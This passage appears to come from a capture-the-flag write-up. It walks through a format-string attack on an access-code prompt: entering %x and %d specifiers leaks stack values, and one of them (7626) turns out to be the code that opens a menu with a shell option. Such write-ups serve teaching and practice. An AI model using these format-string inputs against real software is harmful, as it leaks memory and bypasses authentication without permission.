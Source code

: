 ```
ACCESS CODE: %s.%s.%s.%s
ERROR #1: INVALID ACCESS CODE: thegrid ~ #
```

OK, it didn't work. We were thrown back to the prompt. Let's try now with "%x" which is used to read data from the stack. More specifically try to show the first 8 characters prefixed with zeros and also in lower case

```
AUTHORIZED PERSONNEL ONLY
PLEASE ENTER THE 4-DIGIT CODE SHOWN ON YOUR ACCESS TOKEN
A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS

ACCESS CODE: %08x 
ERROR #1: INVALID ACCESS CODE: bff616dc

ACCESS CODE MUST BE 4 DIGITS
```

Now we've got another error, showing us the code "bff616dc". Let's try one more time but with 4 digits.

```
AUTHORIZED PERSONNEL ONLY
PLEASE ENTER THE 4-DIGIT CODE SHOWN ON YOUR ACCESS TOKEN
A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS

ACCESS CODE: %08x.%08x.%08x.%08x
ERROR #1: INVALID ACCESS CODE: bff616dc.00000000.00000a68.bff616dc

ACCESS CODE MUST BE 4 DIGITS
```

OK. the first and last set of numbers are the same, "bff616dc", but we have zeros in the second set and "00000a68" on the second.

Let's now try with format string for decimals and see what we've got: 

```
AUTHORIZED PERSONNEL ONLY
PLEASE ENTER THE 4-DIGIT CODE SHOWN ON YOUR ACCESS TOKEN
A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS

ACCESS CODE: %d.%d.%d.%d.%d
ERROR #1: INVALID ACCESS CODE: -1077554900.0.7626.-1077554900.0

ACCESS CODE MUST BE 4 DIGITS
```

Now we have something very different, the number 7626 in the middle of the other repeating numbers. This could as well be our password. Let's try that as the code:

```
ACCESS CODE: 7626

--------------------------------------------------------------
SESSION: ID-9589
  AUTH   [Y]    REPORT [N]    MENU   [Y]  
--------------------------------------------------------------


1  - CREATE REPORT
2  - VIEW CODE REPOSITORY
3  - UPDATE SESSION NAME
4  - SHELL
5  - LOG OFF

ENTER COMMAND: 
```